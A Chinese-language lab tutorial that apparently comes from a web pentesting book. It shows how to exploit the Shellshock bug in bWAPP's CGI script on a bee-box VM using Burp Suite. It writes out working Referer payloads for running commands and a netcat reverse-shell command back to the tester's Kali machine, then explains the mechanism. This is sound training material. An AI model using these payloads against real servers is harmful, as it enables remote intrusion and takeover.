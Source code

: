 通过HTTP访问bee-box（`http://192.168.56.12/bWAPP/`）并登录，开始进行本次练习：

1.  在选择你的漏洞：下拉框中，选择Shellshock漏洞（CGI），然后点击Hack：

![](assets/08dd482f-4901-433a-ab9a-62333dbcb8f9.png)

在文本中，我们看到一个有趣的内容：当前用户：www-data。这可能意味着该页面正在使用系统调用来获取用户名。它还给了我们一个提示，可以攻击referer。

1.  让我们看看后台发生了什么，并使用Burp Suite记录请求并重新加载页面。如果我们查看代理历史记录：

![](assets/143f9b2f-ae48-4a59-bada-9fdefd731f98.png)

我们可以看到有一个`iframe`调用了一个shell脚本：`/cgi-bin/shellshock.sh`，这可能是易受Shellshock攻击的脚本。

1.  让我们根据提示，尝试攻击`shellshock.sh`的referer。我们首先需要配置Burp Suite以拦截服务器响应。在代理选项卡中，进入Options并勾选基于以下规则拦截响应的框。

1.  现在，设置Burp Suite为拦截模式，并重新加载`shellshock.php`。

1.  在Burp Suite中，点击Forward，直到看到`GET`请求指向`/bWAPP/cgi-bin/shellshock.sh`。然后，将`Referer`替换为`() { :;}; echo "Vulnerable:"`，如以下截图所示：

![](assets/91b11f28-2008-4b64-a7f5-f54f29899b44.png)

1.  再次点击Forward，然后再次在请求`.ttf`文件时，我们应该能够得到来自`shellshock.sh`的响应，如下图所示：

![](assets/9711560e-64a3-4b9b-a997-f6af7acda1dd.png)

响应现在有一个新的头部参数，称为`Vulnerable`。这是因为它将`echo`命令的输出集成到了我们提交的HTML头部，现在我们可以进一步执行更多有趣的命令。

1.  现在，尝试执行`() { :;}; echo "Vulnerable:" $(/bin/sh -c "/sbin/ifconfig")`命令。结果显示，命令的输出被包含在响应头中：

![](assets/d705a9ed-a11a-460a-94a1-b6ff5044edb7.png)

1.  在渗透测试中，能够远程执行服务器上的命令是一个巨大的优势，接下来的自然步骤是获取远程Shell，即建立一个直接连接，在此连接中我们可以发送更复杂的命令。打开Kali Linux中的终端，使用以下命令设置一个监听网络端口：`nc -vlp 12345`。

1.  现在，进入Burp Suite代理的历史记录，选择任何一个请求`shellshock.sh`，右键点击它，并将其发送到重复器。

1.  一旦进入重复器，更改`Referer`的值为：`() { :;}; echo "Vulnerable:" $(/bin/sh -c "nc -e /bin/bash 192.168.56.10 12345")`。在这种情况下，`192.168.56.10`是我们Kali机器的地址。

1.  点击“Go”。如果我们查看终端，可以看到连接已建立；发出一些命令以检查是否已经获得远程Shell：

![](assets/3e76e705-154e-4b70-94e2-d3e88ef8246e.png)

# 它是如何工作的...

在前五个步骤中，我们发现存在对Shell脚本的调用，由于该脚本应该由Shell解释器运行，它可能是bash或一个存在漏洞的bash版本。

为了验证这一点，我们执行了以下测试：

[PRE0]

第一部分`() { :;};`是一个空的函数定义，因为bash可以将函数存储为环境变量，而这是漏洞的核心，因为解析器会在函数结束后继续解析（并执行）命令。这使我们能够发出第二部分`echo "Vulnerable:"`，该命令简单地返回并回显它收到的输入。

漏洞发生在Web服务器中，因为CGI实现将请求的所有部分映射到环境变量，因此即使通过User-Agent或Accept-Language而不是Referer进行攻击，这个漏洞也同样有效。一旦我们确认服务器存在漏洞，就可以发出测试命令`ifconfig`，并设置一个反向Shell。
